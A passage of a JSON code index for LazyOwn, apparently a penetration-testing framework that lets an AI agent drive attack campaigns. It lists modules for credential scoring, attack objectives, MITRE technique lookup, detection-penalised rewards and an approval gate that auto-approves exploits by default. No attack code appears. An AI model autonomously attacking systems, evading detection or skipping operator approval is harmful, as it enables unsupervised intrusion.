"signature": "def _run_parquet_query()"}, {"kind": "function", "line": 11773, "name": "_run_campaign", "signature": "def _run_campaign()"}, {"kind": "function", "line": 11843, "name": "_run_daemon", "signature": "def _run_daemon()"}, {"kind": "function", "line": 11928, "name": "_launch", "signature": "def _launch()"}]}, {"doc": "LazyOwn MCP helper functions — pure logic, no MCP server imports.  This module hosts the analytical / file-system primitives used by the MCP high-impact tools (target_context, tasks_cleanup, evidence_grep, session_diff, freshness reporting, dry-run pre-flight, async jobs). Keeping them here makes the MCP server thin and the logic unit-testable in isolation.", "id": "skills/lazyown_mcp_helpers.py", "kind": "module", "label": "lazyown_mcp_helpers.py", "language": "py", "sha256": "f6ff087116f2bce6", "symbol_count": 21, "symbols": [{"doc": "Score whether a string is plausibly a real credential.\n\nReturns:\n    (is_likely, confidence_in_[0,1], reason).\n    - timestamps, URLs, bare IPs, and empty values score 0.\n    - user:pass and NTLM hash pairs score >=0.85.\n    - hex strings of hash length score 0.6 (could be hash).\n    - everything else scores 0.3 (unknown).", "kind": "function", "line": 37, "name": "is_likely_credential", "signature": "def is_likely_credential(value)"}, {"doc": "Return age + stale flag for an evidence file.\n\nArgs:\n    path: Path to a session artefact.\n    threshold_seconds: Anything older than this is marked stale.\n    now: Override current time (for tests).\n\nReturns:\n    {exists, size, mtime, age_seconds, age_human, stale, threshold_seconds}.\n    If the file does not exist all numeric fields are 0 and exists=False.", "kind": "function", "line": 67, "name": "evidence_freshness", "signature": "def evidence_freshness(path, threshold_seconds, now)"}, {"doc": "Return a compact human age string (e.g. '3h12m', '4d').", "kind": "function", "line": 112, "name": "_format_age", "signature": "def _format_age(seconds)"}, {"doc": "Extract the embedded JSON-ish payload from a task title.\n\nTasks created by the WorldModelWatcher have titles like:\n  'Leverage new credential: {\"value\": \"...\", \"host\": \"...\", ...}'\nThe string can be truncated. This helper returns whatever fields it can\nparse (best-effort), or None if nothing structured is found.", "kind": "function", "line": 125, "name": "parse_task_value", "signature": "def parse_task_value(title)"}, {"doc": "Outcome of evaluating a single task entry.", "kind": "class", "line": 153, "name": "TaskAudit", "signature": "class TaskAudit"}, {"doc": "Classify each task as keep/drop with a reason.\n\nTasks whose embedded credential value parses as a timestamp / URL / IP\nare flagged drop. Generic recon and objective tasks are kept.", "kind": "function", "line": 165, "name": "audit_tasks", "signature": "def audit_tasks(tasks, min_confidence)"}, {"doc": "Locate where a credential was first observed.\n\nSearches sessions/credentials*.txt and the session CSV log for the\nvalue. Returns {source_file, line_no, captured_at, command} or None.", "kind": "function", "line": 196, "name": "find_credential_provenance", "signature": "def find_credential_provenance(value, sessions_dir, csv_name)"}, {"doc": "Grep through session artefacts.\n\nArgs:\n    pattern: Regex pattern to search for.\n    sessions_dir: Root sessions directory.\n    scope: 'all' | 'loot' | 'nmap' | 'http' | 'logs'.\n    max_matches: Cap on returned matches.\n    max_file_bytes: Skip files larger than this to avoid OOM on dumps.\n    case_insensitive: Default True.\n\nReturns:\n    {pattern, scope, scanned, truncated, matches: [{path, line_no, line}]}.", "kind": "function", "line": 297, "name": "evidence_grep", "signature": "def evidence_grep(pattern, sessions_dir, scope, max_matches, max_file_bytes, case_insensitive)"}, {"doc": "List pwntomate output dirs for a target with per-dir freshness.\n\nReturns one entry per discovered tool directory:\n  {host, port, tool, files, age_seconds, stale}.", "kind": "function", "line": 376, "name": "collect_pwntomate_evidence", "signature": "def collect_pwntomate_evidence(rhost, sessions_dir)"}, {"doc": "Aggregate everything known about (host, port) into one structure.\n\nReads from sessions/, world_model.json, scan_<host>.nmap, pwntomate\noutputs, credentials*.txt. Designed to replace 4-5 separate lookups\nwhen an LLM is deciding on next steps for a target.", "kind": "function", "line": 414, "name": "build_target_context", "signature": "def build_target_context(host, port, sessions_dir, payload, world_model)"}, {"doc": "Pre-flight a LazyOwn command without executing it.\n\nReturns a structured assessment:\n  {command, base_command, binary, binary_present, os_required, os_match,\n   would_duplicate, duplicate_artifacts, missing_payload_keys, ok}.\nUsed by lazyown_run_command(dry_run=True) and the CLI dry-run alias.", "kind": "function", "line": 575, "name": "preflight_command", "signature": "def preflight_command(command, payload, sessions_dir)"}, {"doc": "In-memory record for a backgrounded shell job.", "kind": "class", "line": 672, "name": "JobRecord", "signature": "class JobRecord"}, {"doc": "Thread-safe in-memory store for run_command_async jobs.", "kind": "class", "line": 686, "name": "JobStore", "signature": "class JobStore"}, {"doc": "Capture a lightweight snapshot of the campaign state.\n\nStored at sessions/_mcp_session_snapshot.json. Includes file inventory\nplus credential/task counts so a later diff can show what changed.", "kind": "function", "line": 747, "name": "take_snapshot", "signature": "def take_snapshot(sessions_dir, payload, world_model, tasks)"}, {"doc": "Return what changed since the last snapshot.\n\nIf no prior snapshot exists, returns {first_run: True, ...} so callers\ncan choose whether to take one and report nothing.", "kind": "function", "line": 792, "name": "diff_snapshot", "signature": "def diff_snapshot(sessions_dir, payload, world_model, tasks)"}, {"doc": "Return True if tool should require an explicit confirm=True flag.", "kind": "function", "line": 875, "name": "needs_confirmation", "signature": "def needs_confirmation(tool_name, arguments)"}, {"kind": "method", "line": 689, "name": "__init__", "signature": "def __init__(self, max_jobs)"}, {"doc": "Start a runner(command, timeout) in a background thread.", "kind": "method", "line": 694, "name": "submit", "signature": "def submit(self, command, runner, timeout)"}, {"kind": "method", "line": 727, "name": "status", "signature": "def status(self, job_id)"}, {"kind": "method", "line": 732, "name": "list", "signature": "def list(self, limit)"}, {"kind": "function", "line": 709, "name": "_worker", "signature": "def _worker()"}]}, {"doc": "LazyOwn MCP OpenCode bridge.  Curated, short-named MCP server for autonomous OpenCode agents running on local models (e.g. ollama/qwen3.8:27b). Local models mis-handle large tool catalogs and re-namespace long names like ``lazyown_lazyown_campaign_sitrep``. This bridge exposes only the essential LazyOwn tools under short, memorable names and proxies every call back to the full ``lazyown_mcp`` server, which keeps the single source of truth for logic, permissions and hooks.  Usage: python3 skills/lazyown_mcp_opencode.py  The stdio transport is used (default), matching OpenCode local MCP config.", "id": "skills/lazyown_mcp_opencode.py", "kind": "module", "label": "lazyown_mcp_opencode.py", "language": "py", "sha256": "cbbaf186dbf36343", "symbol_count": 3, "symbols": [{"doc": "Expose the curated subset under short names, keeping original schemas.", "kind": "function", "line": 57, "name": "list_tools", "signature": "def list_tools()"}, {"doc": "Proxy the short name to the full LazyOwn MCP handler.", "kind": "function", "line": 76, "name": "call_tool", "signature": "def call_tool(name, arguments)"}, {"kind": "function", "line": 84, "name": "main", "signature": "def main()"}]}, {"doc": "LazyOwn Objective Store ======================= Priority-queue for high-level attack objectives.  Claude Code (the frontier model operating the MCP) is the primary writer and reader of this store.  Sub-systems (sessions_watcher, event_engine, auto_loop) may inject objectives automatically when they detect new context.  File format  — sessions/objectives.jsonl Each line    — one JSON object: { \"id\":         \"<8-char hex>\", \"text\":       \"Enumerate SMB shares on 10.10.11.78 (port 445 confirmed open)\", \"priority\":   \"high\",        # critical / high / medium / low \"status\":     \"pending\",     # pending / in_progress / done / blocked / skipped \"source\":     \"claude\",      # claude / watcher / event_engine / user \"context\":    { ... },       # arbitrary dict — facts, event ids, etc. \"created_at\": \"<iso>\", \"updated_at\": \"<iso>\", \"notes\":      \"\" }  Priority order for next_pending():  critical > high > medium > low Within same priority: FIFO (oldest first).  Usage: python3 skills/lazyown_objective.py inject \"Enumerate SMB\" --priority high python3 skills/lazyown_objective.py next", "id": "skills/lazyown_objective.py", "kind": "module", "label": "lazyown_objective.py", "language": "py", "sha256": "643bdbd033e028eb", "symbol_count": 36, "symbols": [{"kind": "class", "line": 105, "name": "Objective", "signature": "class Objective"}, {"doc": "Append-only JSONL store with full rewrite on status changes.\n\nThe file stays small (pentest campaigns rarely exceed a few hundred\nobjectives).  Thread safety is handled by atomic rename on write.", "kind": "class", "line": 123, "name": "ObjectiveStore", "signature": "class ObjectiveStore"}, {"doc": "Split a compound goal into discrete verifiable objectives.\n\nRule-based fallback so goal nodes always exist: reconnaissance\nclauses stay informational, everything else becomes an\nindependently completable objective with the target attached.\nReturns the input unchanged when no split markers are present.", "kind": "function", "line": 296, "name": "decompose_goal", "signature": "def decompose_goal(goal_text, target)"}, {"kind": "function", "line": 320, "name": "read_soul", "signature": "def read_soul()"}, {"kind": "function", "line": 326, "name": "write_soul", "signature": "def write_soul(content)"}, {"kind": "function", "line": 330, "name": "current_plan", "signature": "def current_plan()"}, {"doc": "Return a single dict with everything Claude Code needs to reason about\nthe next objective:  soul + pending objectives + current plan + soul.", "kind": "function", "line": 336, "name": "full_context_for_claude", "signature": "def full_context_for_claude(target)"}, {"doc": "Smart section-level patcher for sessions/soul.md.\n\nInstead of rewriting the whole file, it patches only the relevant\n## section when new intelligence arrives (new credential, OS detected,\naccess level achieved, vulnerability found).\n\nEach ## section is delimited by the next ## header or end-of-file.\nIf a section doesn't exist yet it is appended.\n\nUsage (called by sessions_watcher after parsing):\n    su = SoulUpdater()\n    su.update_credentials([{\"username\": \"admin\", \"password\": \"P@ss\"}])\n    su.update_phase(\"exploit\")\n    su.update_os(\"Windows Server 2019\", \"10.10.11.78\")\n    su.update_access(\"admin\", \"10.10.11.78\", method=\"evil-winrm\")\n    su.update_vulnerabilities([{\"vuln_id\": \"CVE-2021-34527\", \"severity\": \"critical\", ...}])", "kind": "class", "line": 359, "name": "SoulUpdater", "signature": "class SoulUpdater"}, {"kind": "function", "line": 485, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 116, "name": "sort_key", "signature": "def sort_key(self)"}, {"kind": "method", "line": 131, "name": "__init__", "signature": "def __init__(self, path)"}, {"kind": "method", "line": 135, "name": "_now", "signature": "def _now(self)"}, {"kind": "method", "line": 138, "name": "_load_all", "signature": "def _load_all(self)"}, {"kind": "method", "line": 153, "name": "_save_all", "signature": "def _save_all(self, objs)"}, {"doc": "8-char hex fingerprint of objective text for deduplication.", "kind": "method", "line": 159, "name": "_text_hash", "signature": "def _text_hash(text)"}, {"doc": "Expire pending objectives whose TTL has passed.\nReturns the number of objectives marked skipped.", "kind": "method", "line": 163, "name": "cleanup", "signature": "def cleanup(self)"}, {"kind": "method", "line": 193, "name": "inject", "signature": "def inject(self, text, priority, source, context, notes)"}, {"kind": "method", "line": 229, "name": "_update_status", "signature": "def _update_status(self, obj_id, status, notes)"}, {"kind": "method", "line": 243, "name": "complete", "signature": "def complete(self, obj_id, notes)"}, {"kind": "method", "line": 246, "name": "block", "signature": "def block(self, obj_id, reason)"}, {"kind": "method", "line": 249, "name": "skip", "signature": "def skip(self, obj_id, reason)"}, {"kind": "method", "line": 252, "name": "start", "signature": "def start(self, obj_id)"}, {"kind": "method", "line": 255, "name": "next_pending", "signature": "def next_pending(self)"}, {"kind": "method", "line": 261, "name": "list_pending", "signature": "def list_pending(self, limit)"}, {"kind": "method", "line": 265, "name": "list_all", "signature": "def list_all(self, status, limit)"}, {"kind": "method", "line": 271, "name": "summary", "signature": "def summary(self)"}, {"kind": "method", "line": 379, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 384, "name": "_read", "signature": "def _read(self)"}, {"doc": "Replace the body of ## header section; append if missing.", "kind": "method", "line": 389, "name": "_patch_section", "signature": "def _patch_section(self, header, new_body)"}, {"doc": "Replace `key: <old>` with `key: value` anywhere in the file.", "kind": "method", "line": 404, "name": "_patch_line", "signature": "def _patch_line(self, key, value)"}, {"doc": "Update the `Phase:` line inside ## Current Focus.", "kind": "method", "line": 417, "name": "update_phase", "signature": "def update_phase(self, phase)"}, {"doc": "Update the `Target:` line inside ## Current Focus.", "kind": "method", "line": 421, "name": "update_target", "signature": "def update_target(self, target)"}, {"doc": "Record detected operating system for a target.", "kind": "method", "line": 425, "name": "update_os", "signature": "def update_os(self, os_name, target)"}, {"doc": "Replace the ## Known Credentials section with discovered credentials.\nAccepts list of dicts with keys: username, password, hash_value (optional).", "kind": "method", "line": 432, "name": "update_credentials", "signature": "def update_credentials(self, creds)"}, {"doc": "Update achieved access level for a target.", "kind": "method", "line": 459, "name": "update_access", "signature": "def update_access(self, level, target, method)"}, {"doc": "Replace ## Key Vulnerabilities with the most severe findings.", "kind": "method", "line": 466, "name": "update_vulnerabilities", "signature": "def update_vulnerabilities(self, vulns)"}]}, {"doc": "LazyOwn Parquet Knowledge Base ================================ Centralises session history and contextual knowledge in the parquets/ directory.  Two responsibilities ──────────────────── 1. SESSION KNOWLEDGE  →  parquets/session_knowledge.parquet • Ingests sessions/LazyOwn_session_report.csv (which has no id/success/category) • Enriches each row with: - id           : stable UUID derived from (start, command, args, destination_ip) - category     : extracted from cmd2 @with_category decorators in lazyown.py (parsed once at startup with a regex — no import needed) - success      : bool  (True by default from bootstrap; updated via annotate()) - outcome      : \"success\" | \"failure\" | \"unknown\" - reward       : int from policy RewardCalculator - confidence   : float - tier         : classifier tier - reason       : why the outcome was chosen • Merges new CSV rows incrementally (existing rows preserved, not overwritten) • Supports annotate(row_id, success, category) to patch rows AFTER execution  2. KNOWLEDGE QUERY ENGINE  →  any .parquet in parquets/ • query_knowledge(keyword, parquet, columns, limit) — generic keyword search over any parquet in parquets/  (binarios, lolbas_*, techniques, session_knowledge) • context_for_phase(phase, target) — rich context dict for MCP: * recent successes/failures in this phase * relevant GTFOBins binaries * relevant MITRE techniques", "id": "skills/lazyown_parquet_db.py", "kind": "module", "label": "lazyown_parquet_db.py", "language": "py", "sha256": "edc116f2f6283e41", "symbol_count": 21, "symbols": [{"doc": "Parse lazyown.py with regex to build command→phase map.\nRequires no import — safe to call from any context.", "kind": "function", "line": 146, "name": "_build_cmd2_category_map", "signature": "def _build_cmd2_category_map(lazyown_py)"}, {"doc": "Generate a stable 16-char hex ID from row fields.", "kind": "function", "line": 178, "name": "_stable_id", "signature": "def _stable_id(start, cmd, args, dest_ip)"}, {"doc": "Return {category, success, outcome, reward, confidence, tier, reason}.", "kind": "function", "line": 203, "name": "_classify_row", "signature": "def _classify_row(command, args, phase_hint)"}, {"doc": "Parquet-backed session knowledge base + generic parquet query engine.", "kind": "class", "line": 244, "name": "ParquetDB", "signature": "class ParquetDB"}, {"doc": "Verify SHA256 integrity of classifier model and encoder files.\n\nArgs:\n    model_path: Path to the joblib model file.\n    encoder_path: Path to the JSON encoder file.\n    hash_path: Path to the stored hash manifest (classifier.sha256).\n\nReturns:\n    True if both files match their stored hashes, False otherwise.", "kind": "function", "line": 892, "name": "verify_model_integrity", "signature": "def verify_model_integrity(model_path, encoder_path, hash_path)"}, {"doc": "Return compact view of a session row for MCP context.", "kind": "function", "line": 930, "name": "_slim", "signature": "def _slim(row)"}, {"kind": "function", "line": 948, "name": "get_pdb", "signature": "def get_pdb(lazyown_dir)"}, {"kind": "function", "line": 961, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 295, "name": "__init__", "signature": "def __init__(self, lazyown_dir)"}, {"doc": "Load existing session_knowledge.parquet or return empty DataFrame.", "kind": "method", "line": 307, "name": "_load_session", "signature": "def _load_session(self)"}, {"doc": "Ingest sessions/LazyOwn_session_report.csv into session_knowledge.parquet.\n\nNew rows are enriched with id/category/success/outcome.\nExisting rows (matched by id) are preserved — their manual annotations\n(success, category) are NOT overwritten.\n\nReturns the number of NEW rows added.", "kind": "method", "line": 316, "name": "sync", "signature": "def sync(self, csv_path)"}, {"doc": "Patch a row in session_knowledge.parquet by its id.\nOnly supplied fields are updated.  Returns True if found.", "kind": "method", "line": 405, "name": "annotate", "signature": "def annotate(self, row_id, success, category, outcome)"}, {"doc": "Full annotation after real execution: stores output snippet + all metadata.\nUse this instead of annotate() from the auto_loop for richer training data.", "kind": "method", "line": 434, "name": "annotate_rich", "signature": "def annotate_rich(self, row_id, output, finding_type, target_service, target_port, campaign_id, success, category, outcome)"}, {"doc": "Query session_knowledge.parquet.\n\nphase:        filter by category column (e.g. \"recon\", \"scanning\")\ntarget:       filter by destination_ip\nsuccess_only: only return rows where success == True\nlimit:        max rows returned", "kind": "method", "line": 490, "name": "query_session", "signature": "def query_session(self, phase, target, success_only, limit)"}, {"doc": "Search for keyword across one or all parquets in parquets/.\n\nparquet_name: stem of the parquet file (e.g. \"binarios\", \"techniques\").\n              If None, searches all parquets.\ncolumns:      restrict search to these columns (default: all string columns).\nReturns dict {parquet_stem: [matching rows...]}.", "kind": "method", "line": 526, "name": "query_knowledge", "signature": "def query_knowledge(self, keyword, parquet_name, columns, limit)"}, {"doc": "Structured query over the enriched Atomic Red Team catalogue\n(parquets/techniques_enriched.parquet).\n\nFalls back to query_knowledge(\"techniques\", keyword) if the enriched\nparquet is not yet built.\n\nParameters\n----------\nkeyword      : free-text search over name + description + keyword_tags\nmitre_id     : exact or prefix (T1059 matches T1059, T1059.001, …)\nplatform     : linux | windows | macos | freebsd | cloud\nscope        : local | remote | elevated | any\nhas_prereqs  : True → only tests needing prereqs; False → no prereqs\ncomplexity   : low | medium | high\nlimit        : max results (default 10)\ninclude_command : add command_preview to each result", "kind": "method", "line": 576, "name": "query_atomic", "signature": "def query_atomic(self, keyword, mitre_id, platform, scope, has_prereqs, complexity, limit, include_command)"}, {"doc": "Return a rich context dict for MCP reasoning:\n\n{\n  \"phase\":             \"recon\",\n  \"target\":            \"10.10.11.78\",\n  \"successful_cmds\":   [{\"command\": ..., \"args\": ..., \"start\": ...}, ...],\n  \"failed_cmds\":       [...],\n  \"gtfobins_relevant\": [...],   # from binarios.parquet\n  \"mitre_techniques\":  [...],   # from techniques.parquet\n  \"lolbas_relevant\":   [...],   # from lolbas_index.parquet\n  \"summary\":           \"3 recon successes, 1 failure. Top commands: ...\"\n}", "kind": "method", "line": 630, "name": "context_for_phase", "signature": "def context_for_phase(self, phase, target, limit)"}, {"kind": "method", "line": 729, "name": "stats", "signature": "def stats(self)"}, {"kind": "method", "line": 743, "name": "list_parquets", "signature": "def list_parquets(self)"}, {"doc": "Train a lightweight RandomForest classifier on session_knowledge.parquet.\n\nFeatures: command name (hashed), first arg token (hashed), category label.\nTarget:   success (bool).\n\nThe trained model is saved to parquets/classifier.pkl.\nReturns a dict with {accuracy, n_train, n_test, model_path, feature_importance}.\n\nAuto-called by sync() when the parquet grows by more than 200 annotated rows.\nRequires: scikit-learn (pip install scikit-learn)", "kind": "method", "line": 748, "name": "train_classifier", "signature": "def train_classifier(self, min_rows)"}, {"doc": "Use the trained classifier to estimate probability of success.\nReturns float 0.0–1.0 or None if no model exists.", "kind": "method", "line": 843, "name": "predict_success", "signature": "def predict_success(self, command, category)"}]}, {"doc": "LazyOwn Permission System — Deny-First Rule Evaluation (Claude Code style)  Deny rules ALWAYS win over allow rules. Modes: plan | default | accept_edits | auto | dont_ask | bypass_permissions", "id": "skills/lazyown_permissions.py", "kind": "module", "label": "lazyown_permissions.py", "language": "py", "sha256": "0e96679eeff166de", "symbol_count": 16, "symbols": [{"kind": "class", "line": 18, "name": "PermissionMode", "signature": "class PermissionMode(Enum)"}, {"kind": "class", "line": 29, "name": "PermissionRule", "signature": "class PermissionRule"}, {"doc": "Deny-first rule evaluator with persistent JSON rule store.\n\nRule evaluation order:\n  1. Hard-coded always-deny patterns (catastrophic commands)\n  2. Read-only tool bypass (never blocked by mode)\n  3. User deny rules (wins over allow)\n  4. User allow rules\n  5. Mode default (dont_ask → deny; others → ask)", "kind": "class", "line": 91, "name": "PermissionSystem", "signature": "class PermissionSystem"}, {"kind": "method", "line": 36, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 103, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"kind": "method", "line": 113, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 124, "name": "_save", "signature": "def _save(self)"}, {"kind": "method", "line": 132, "name": "_audit", "signature": "def _audit(self, tool, decision, reason, args)"}, {"kind": "method", "line": 145, "name": "add_rule", "signature": "def add_rule(self, tool_pattern, action, condition, description)"}, {"kind": "method", "line": 151, "name": "remove_rule", "signature": "def remove_rule(self, tool_pattern, action)"}, {"kind": "method", "line": 157, "name": "set_mode", "signature": "def set_mode(self, mode)"}, {"kind": "method", "line": 162, "name": "list_rules", "signature": "def list_rules(self)"}, {"doc": "Returns (decision, reason).\ndecision: \"allow\" | \"deny\" | \"ask\"", "kind": "method", "line": 167, "name": "evaluate", "signature": "def evaluate(self, tool_name, arguments)"}, {"kind": "method", "line": 219, "name": "_matches", "signature": "def _matches(self, rule, tool_name, args)"}, {"doc": "Aggregate audit log into per-decision and per-tool counts.", "kind": "method", "line": 237, "name": "metrics", "signature": "def metrics(self)"}, {"kind": "method", "line": 279, "name": "status_text", "signature": "def status_text(self)"}]}, {"doc": "LazyOwn Policy Engine ===================== Four-tier cascading outcome classifier with reward-based transition learning.  Reads sessions/LazyOwn_session_report.csv to bootstrap from historical data, classifies command outcomes through a configurable cascade:  Tier 1  — shell exit code (fast, low confidence) Tier 2a — regex heuristics on output (fast, medium confidence) Tier 2b — local Ollama small model (slow, higher confidence) Tier 3  — local Ollama large model as fallback (slow, higher confidence) Tier 4  — interactive operator prompt (authoritative, manual)  Each completed step receives a reward scalar derived from its category and outcome.  Transitions between states are counted in a persistent table. The policy engine uses that table, plus a set of hand-coded override rules, to recommend the next action category.  Usage: python3 skills/lazyown_policy.py bootstrap python3 skills/lazyown_policy.py analyze \\\\ --target 10.0.0.1 --command lazynmap --args \"-sV 10.0.0.1\" \\\\ --exit-code 0 --output \"22/open 80/open\" python3 skills/lazyown_policy.py recommend --target 10.0.0.1 python3 skills/lazyown_policy.py report", "id": "skills/lazyown_policy.py", "kind": "module", "label": "lazyown_policy.py", "language": "py", "sha256": "792945a6000aca04", "symbol_count": 126, "symbols": [{"doc": "Single source of truth for all tunable parameters and file paths.", "kind": "class", "line": 54, "name": "Config", "signature": "class Config"}, {"doc": "Semantic category of a LazyOwn command execution.", "kind": "class", "line": 131, "name": "ActionCategory", "signature": "class ActionCategory(StrEnum)"}, {"doc": "Outcome of a classified command execution.", "kind": "class", "line": 146, "name": "OutcomeType", "signature": "class OutcomeType(StrEnum)"}, {"doc": "Return the ActionCategory best matching the command and its arguments.", "kind": "function", "line": 267, "name": "infer_category", "signature": "def infer_category(command, args)"}, {"doc": "Output of a single classifier tier.", "kind": "class", "line": 306, "name": "ClassificationResult", "signature": "class ClassificationResult"}, {"doc": "A single classified command execution within an episode.", "kind": "class", "line": 330, "name": "StepRecord", "signature": "class StepRecord"}, {"doc": "A sequence of classified steps against a common target.", "kind": "class", "line": 347, "name": "EpisodeRecord", "signature": "class EpisodeRecord"}, {"doc": "Abstract base for all classifier tiers.", "kind": "class", "line": 372, "name": "IOutputClassifier", "signature": "class IOutputClassifier(ABC)"}, {"doc": "Tier 1: derive outcome from the shell exit code alone.\n\nA zero exit code implies success but carries limited information about\nthe category, hence confidence is intentionally capped below the\nacceptance threshold so richer tiers are always attempted first.", "kind": "class", "line": 389, "name": "ExitCodeClassifier", "signature": "class ExitCodeClassifier(IOutputClassifier)"}, {"doc": "Tier 2a: regex-based pattern matching on command output.\n\nChecks ordered success patterns first, then failure patterns.\nReturns UNKNOWN when no pattern exceeds a minimum match quality.", "kind": "class", "line": 434, "name": "HeuristicClassifier", "signature": "class HeuristicClassifier(IOutputClassifier)"}, {"doc": "Shared HTTP call and response parsing logic for Ollama-backed tiers.", "kind": "class", "line": 487, "name": "_OllamaClassifierBase", "signature": "class _OllamaClassifierBase(IOutputClassifier)"}, {"doc": "Tier 2b: classification via the configured small local model.", "kind": "class", "line": 588, "name": "OllamaSmallClassifier", "signature": "class OllamaSmallClassifier(_OllamaClassifierBase)"}, {"doc": "Tier 3: classification via the configured large local model as fallback.", "kind": "class", "line": 598, "name": "OllamaLargeClassifier", "signature": "class OllamaLargeClassifier(_OllamaClassifierBase)"}, {"doc": "Tier 4: request manual classification from the operator.\n\nUsed only when all automatic tiers are inconclusive and the pipeline\nwas constructed with interactive=True.", "kind": "class", "line": 608, "name": "UserInteractiveClassifier", "signature": "class UserInteractiveClassifier(IOutputClassifier)"}, {"doc": "Runs classifier tiers in order and stops at the first result whose\nconfidence meets or exceeds Config.min_confidence_to_accept.\n\nRetains the highest-confidence partial result in case all tiers\nstay below the threshold.", "kind": "class", "line": 657, "name": "CascadeClassifier", "signature": "class CascadeClassifier"}, {"doc": "Wraps the DetectionOracle to provide detection probability for a command.\n\nLazily imports modules.detection_oracle so that the oracle's sigma rule\ncatalog does not load unless this class is instantiated.  This preserves\nthe fast startup behaviour of lazyown_mcp.py.\n\nSingle Responsibility: detection probability query only.\nDependency Inversion: callers receive this via constructor injection.", "kind": "class", "line": 701, "name": "DetectionRiskAssessor", "signature": "class DetectionRiskAssessor"}, {"doc": "Converts (ActionCategory, OutcomeType) pairs to scalar reward values,\noptionally applying a detection-risk penalty when a DetectionRiskAssessor\nis provided.\n\nDetection penalty rule\n----------------------\nWhen detection probability >= 0.70 (high risk), the reward for a successful\naction is zeroed out.  This forces the policy engine to prefer lower-noise\npaths over high-value but high-visibility actions.\n\nFailure rewards are unaffected by detection probability — the agent must\nstill learn that failed actions carry a negative signal.", "kind": "class", "line": 754, "name": "RewardCalculator", "signature": "class RewardCalculator"}, {"doc": "Reads LazyOwn_session_report.csv and converts each row to a StepRecord\nusing heuristic classification (no output or exit code available for\nhistorical data).", "kind": "class", "line": 843, "name": "CSVSessionReader", "signature": "class CSVSessionReader"}, {"doc": "Abstract persistence layer for episode records.", "kind": "class", "line": 899, "name": "IEpisodeStore", "signature": "class IEpisodeStore(ABC)"}, {"doc": "Persists each episode as one JSON line in a .jsonl file keyed by target.\n\nThe file is read and rewritten on every mutating call.  This is acceptable\ngiven the expected cardinality of targets in a pentest engagement.", "kind": "class", "line": 915, "name": "JSONLEpisodeStore", "signature": "class JSONLEpisodeStore(IEpisodeStore)"}, {"doc": "Persistent frequency table of observed (from_state → next_category) transitions.\n\nState strings are formatted as \"category:outcome\" (e.g. \"recon:success\").\nThe table is written to disk after every update.", "kind": "class", "line": 979, "name": "TransitionTable", "signature": "class TransitionTable"}, {"doc": "A hand-coded transition override that fires when recent session history\nmatches a specific sequence of states.", "kind": "class", "line": 1042, "name": "OverrideRule", "signature": "class OverrideRule"}, {"doc": "Produces a ranked list of recommended next action categories for a target.\n\nOverride rules are evaluated first against a sliding window of recent states\nand prepended to the list derived from transition table frequencies.", "kind": "class", "line": 1097, "name": "PolicyEngine", "signature": "class PolicyEngine"}, {"doc": "Main entry point for processing a completed command execution.\n\nRuns the cascade classifier, computes the reward, persists the step,\nand updates the transition table with the observed state change.", "kind": "class", "line": 1194, "name": "SessionClassificationPipeline", "signature": "class SessionClassificationPipeline"}, {"doc": "Entry point for querying next-action recommendations for a target.", "kind": "class", "line": 1262, "name": "PolicyAdvisor", "signature": "class PolicyAdvisor"}, {"doc": "Convenience facade for use by lazyown_mcp.py or any other LazyOwn component.\n\nProvides a stable two-method API so callers remain decoupled from the\ninternal cascade and storage details.", "kind": "class", "line": 1294, "name": "LazyOwnPolicyIntegration", "signature": "class LazyOwnPolicyIntegration"}, {"doc": "Outcome of a single ApprovalGate.request call.", "kind": "class", "line": 1326, "name": "ApprovalDecision", "signature": "class ApprovalDecision(StrEnum)"}, {"doc": "Value object describing one human-in-the-loop request.\n\nAttributes:\n    approval_id: Stable identifier used to resolve the request later.\n    target: Engagement target the command will run against.\n    phase: Engagement phase that triggered the gate (exploit, privesc...).\n    command: LazyOwn command line about to execute.\n    reason: Short rationale shown to the operator.\n    created_ts: ISO-8601 UTC timestamp of creation.", "kind": "class", "line": 1335, "name": "ApprovalRequest", "signature": "class ApprovalRequest"}, {"doc": "Result returned by ApprovalGate.request.", "kind": "class", "line": 1356, "name": "ApprovalOutcome", "signature": "class ApprovalOutcome"}, {"doc": "Persistence/notification contract for approval requests.\n\nImplementations are responsible for making a request visible to a human\n(collab UI, stdin prompt, ticketing system, ...) and for retrieving any\nresolution later via :meth:`resolution_for`.", "kind": "class", "line": 1375, "name": "IApprovalSink", "signature": "class IApprovalSink(ABC)"}, {"doc": "Persist approvals to sessions/engagement_approvals.jsonl.\n\nResolutions are appended as additional records with the same approval_id\nand a non-pending status. resolution_for picks the latest non-pending\nrecord for the id so the daemon can poll without holding file handles.", "kind": "class", "line": 1392, "name": "FileApprovalSink", "signature": "class FileApprovalSink(IApprovalSink)"}, {"doc": "Publish approvals through the engagement narrator/collab fabric.\n\nDelegates persistence to a FileApprovalSink and additionally narrates\nthe request so teammates connected to /collab/ see the pending decision\nin real time. Resolution is delegated back to the file sink.", "kind": "class", "line": 1455, "name": "BroadcastApprovalSink", "signature": "class BroadcastApprovalSink(IApprovalSink)"}, {"doc": "Interactive sink that asks the operator on stdin when a TTY is attached.\n\nThe sink only triggers when sys.stdin is a TTY. It writes a prompt,\nreads a single line, and returns the matching ApprovalOutcome.\nFalls back to a pending state when no TTY is available or input fails.", "kind": "class", "line": 1503, "name": "StdinApprovalSink", "signature": "class StdinApprovalSink(IApprovalSink)"}, {"doc": "Fan-out announces to every sink; resolution picks the first answer.\n\nOrder matters: faster channels (stdin) come first so an operator who\nanswers at the prompt resolves the request before the daemon polls\nthe slow file sink.", "kind": "class", "line": 1556, "name": "CompositeApprovalSink", "signature": "class CompositeApprovalSink(IApprovalSink)"}, {"doc": "Human-in-the-loop gate consulted by the EngageOrchestrator.\n\nReads ``payload.json[auto_approve]`` at request time (never cached) so\noperators can flip the value with ``set auto_approve false`` between\nsteps without restarting the daemon.\n\n- auto_approve truthy (default) : every request returns APPROVED.\n- auto_approve false            : requests in gated phases announce\n                                  through the sink and poll up to\n                                  ``poll_seconds`` for a decision. When\n                                  the deadline expires the gate returns\n                                  DENIED so the daemon falls back to a\n                                  safer alternative instead of running\n                                  an unsupervised exploit.\n- phase not in _GATED_CATEGORIES: APPROVED without prompting.\n\nSOLID:\n  S — owns the policy decision only; persistence and notification live\n      in the injected sink.\n  O — gated categories are pulled from 